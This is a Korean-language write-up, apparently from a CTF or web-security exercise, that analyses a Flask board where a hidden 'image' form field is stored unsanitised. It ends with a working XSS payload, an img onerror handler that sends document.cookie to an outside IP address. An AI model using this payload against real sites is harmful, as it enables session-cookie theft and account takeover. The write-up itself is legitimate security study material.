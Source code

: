 `내용`에 스크립트를 입력하면, 스크립트가 동작하지 않고 텍스트 그대로 화면에 나타남

|

```html
<input type="hidden" id="image" name="image" value="">
```

개발자 도구로 소스 코드를 확인하면 `<input>`태그가 `hidden`으로 숨겨져있음

|

|

|

## 코드 분석

### write()

---

```python
if request.form['image']:
    post = Post(content=content, password=password, title=title, image=request.form['image'])
```

`image` 라는 이름의 폼의 값이 존재하면 `Post`객체를 생성하고 `image`필드에 사용자가 입력한`request.form['image']` 추가

|

|

|

## Exploit

`/write` 에서 글을 작성할 때 `<input>`태그의 `value`를 채워야함

### 방법 1

```html
<input type="text" id="image" name="image" value="">
```

F12를 활용해 숨겨진 `<input>`태그의 `type`을 `hidden`에서 `text`로 변경하면 화면에 입력창이 나타남

|

```html
<img src="1" onerror=location.href="http://20.41.120.97:10010/"+document.cookie>
```
